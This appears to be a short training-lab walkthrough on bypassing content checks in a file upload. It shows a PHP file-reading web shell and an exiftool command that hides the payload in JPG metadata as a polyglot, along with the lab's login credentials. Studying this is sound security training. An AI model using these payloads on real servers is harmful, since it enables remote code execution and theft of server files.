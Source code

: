 # Lab 06 - Remote code execution via polyglot web shell upload

## System checks the contents of the file 

### End goal: Upload a basic PHP shell and get /home/carlos/secret

#### Credentials - wiener:peter

1. Login and try to uplaod basic php-shell
```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

2. Create a polyglot PHP/JPG with PHP payload in its metadata

exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" <YOUR-INPUT-IMAGE>.jpg -o polyglot.php